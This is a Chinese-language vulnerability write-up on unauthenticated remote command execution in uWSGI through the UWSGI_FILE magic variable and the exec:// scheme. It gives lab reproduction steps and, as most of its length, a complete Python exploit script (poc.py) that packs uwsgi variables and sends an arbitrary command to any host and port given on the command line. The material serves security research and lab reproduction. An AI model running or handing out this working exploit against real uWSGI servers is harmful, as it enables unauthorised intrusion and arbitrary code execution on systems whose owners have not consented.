 uWSGI 未授权访问漏洞
====================

一、漏洞简介
------------

WSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言，通常被用于运行Python
WEB应用。uwsgi除了是应用容器的名称之外，它和Fastcgi之类的一样，也是前端server与后端应用容器之间的一个交流标准。目前nginx，apache也支持uwsgi协议进行代理转发请求。

uWSGI支持通过魔术变量（Magic
Variables）的方式动态配置后端Web应用。如果其端口暴露在外，攻击者可以构造uwsgi数据包，并指定魔术变量`UWSGI_FILE`，运用`exec://`协议执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

使用poc.py，执行命令`python poc.py -u your-ip:8000 -c "touch /tmp/success"`：

![1.png](./resource/uWSGI未授权访问漏洞/media/rId24.png)

执行`docker-compose exec web bash`进入容器，可见`/tmp/success`已经成功执行：

![2.png](./resource/uWSGI未授权访问漏洞/media/rId25.png)

    poc.py
    #!/usr/bin/python
    # coding: utf-8
    ######################
    # Uwsgi RCE Exploit
    ######################
    # Author: wofeiwo@80sec.com
    # Created: 2017-7-18
    # Last modified: 2018-1-30
    # Note: Just for research purpose

    import sys
    import socket
    import argparse
    import requests

    def sz(x):
        s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
        s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
        return s[::-1]


    def pack_uwsgi_vars(var):
        pk = b''
        for k, v in var.items() if hasattr(var, 'items') else var:
            pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
        result = b'\x00' + sz(pk) + b'\x00' + pk
        return result


    def parse_addr(addr, default_port=None):
        port = default_port
        if isinstance(addr, str):
            if addr.isdigit():
                addr, port = '', addr
            elif ':' in addr:
                addr, _, port = addr.partition(':')
        elif isinstance(addr, (list, tuple, set)):
            addr, port = addr
        port = int(port) if port else port
        return (addr or '127.0.0.1', port)


    def get_host_from_url(url):
        if '//' in url:
            url = url.split('//', 1)[1]
        host, _, url = url.partition('/')
        return (host, '/' + url)


    def fetch_data(uri, payload=None, body=None):
        if 'http' not in uri:
            uri = 'http://' + uri
        s = requests.Session()
        # s.headers['UWSGI_FILE'] = payload
        if body:
            import urlparse
            body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
            d = s.post(uri, data=body_d)
        else:
            d = s.get(uri)

        return {
            'code': d.status_code,
            'text': d.text,
            'header': d.headers
        }


    def ask_uwsgi(addr_and_port, mode, var, body=''):
        if mode == 'tcp':
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(parse_addr(addr_and_port))
        elif mode == 'unix':
            s = socket.socket(socket.AF_UNIX)
            s.connect(addr_and_port)
        s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
        response = []
        # Actually we dont need the response, it will block if we run any commands.
        # So I comment all the receiving stuff. 
        # while 1:
        #     data = s.recv(4096)
        #     if not data:
        #         break
        #     response.append(data)
        s.close()
        return b''.join(response).decode('utf8')


    def curl(mode, addr_and_port, payload, target_url):
        host, uri = get_host_from_url(target_url)
        path, _, qs = uri.partition('?')
        if mode == 'http':
            return fetch_data(addr_and_port+uri, payload)
        elif mode == 'tcp':
            host = host or parse_addr(addr_and_port)[0]
        else:
            host = addr_and_port
        var = {
            'SERVER_PROTOCOL': 'HTTP/1.1',
            'REQUEST_METHOD': 'GET',
            'PATH_INFO': path,
            'REQUEST_URI': uri,
            'QUERY_STRING': qs,
            'SERVER_NAME': host,
            'HTTP_HOST': host,
            'UWSGI_FILE': payload,
            'SCRIPT_NAME': target_url
        }
        return ask_uwsgi(addr_and_port, mode, var)


    def main(*args):
        desc = """
        This is a uwsgi client & RCE exploit.
        Last modifid at 2018-01-30 by wofeiwo@80sec.com
        """
        elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
        
        parser = argparse.ArgumentParser(description=desc, epilog=elog)

        parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                            help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                            dest='mode', choices=['http', 'tcp', 'unix'])

        parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                            help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                            dest='uwsgi_addr')

        parser.add_argument('-c', '--command', nargs='?', required=True,
                            help='Command: The exploit command you want to execute, must have this.',
                            dest='command')

        if len(sys.argv) < 2:
            parser.print_help()
            return
        args = parser.parse_args()
        if args.mode.lower() == "http":
            print("[-]Currently only tcp/unix method is supported in RCE exploit.")
            return
        payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
        print("[*]Sending payload.")
        print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

    if __name__ == '__main__':
        main()

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/README.zh-cn.md
